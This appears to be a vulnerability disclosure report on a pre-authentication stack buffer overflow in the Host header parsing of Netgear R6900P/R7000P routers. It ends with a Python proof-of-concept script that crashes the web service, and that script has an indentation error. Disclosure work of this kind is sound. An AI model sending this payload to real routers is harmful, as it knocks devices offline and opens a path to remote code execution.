

The Netgear AC1900 R6900P, R7000P router has an unauthorized buffer overflow vulnerability

The firmware version is 1.3.3.154.

**Business Impact**

this vulnerability can lead to a denial of service attack, and further exploitation can result in pre-authentication remote code execution (RCE).

There are also a significant number of these routers on the public internet:


**Steps to Reproduce**

1. Vulnerability point: In the sub_16C4C function, which is primarily used to handle all web requests, the use of the sscanf function when reading the Host field leads to a stack buffer overflow. The field following "host: " is not length-checked, allowing overflow into the address of the variable v194 and down to the stack bottom.

In R6900P


In R7000P:


Vulnerability Verification:

The process ID of the HTTP server was 9514 before sending the packet, and it changed to 12344 after sending the packet. This indicates that the HTTP service has crashed.


burp suite send packet:


the process id changed:


Debug:


Break in 'acosNvramConfig_set' function, which happen after the vulnerability point. The stack address of the variable v194 is $sp+0x1046c, and the bottom of the stack is at $sp+0x10C00+0x324, indicating that the overflow has filled the entire stack.



Poc:

```python
from pwn import *
import socket
import argparse

def form_payload(test_num, ip):
	payload = b"a" * (3356 - len(ip))
	print(payload.hex())
	headers = b"GET /img/error.png HTTP/1.1\r\n"
	headers += f"Host: {ip}".encode()
	headers += payload
	headers += b"\r\n"
	headers += b"Referer: http://192.168.1.1/img/error.png\r\n"
	headers += b"Connection: close\r\n"
	headers += b"Content-Length: 2\r\n"
	headers += b"Priority: u=2\r\n"
	return headers
if __name__ == '__main__':
	parser = argparse.ArgumentParser(description='target ip.')
	parser.add_argument('ip', help='target IP')
	args = parser.parse_args()
	ip = args.ip
	for i in range(1):
		headers = form_payload(i, ip)
		with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.connect((ip, 80))
		s.sendall(headers)
		response = s.recv(4096)
		print(response.decode())
```

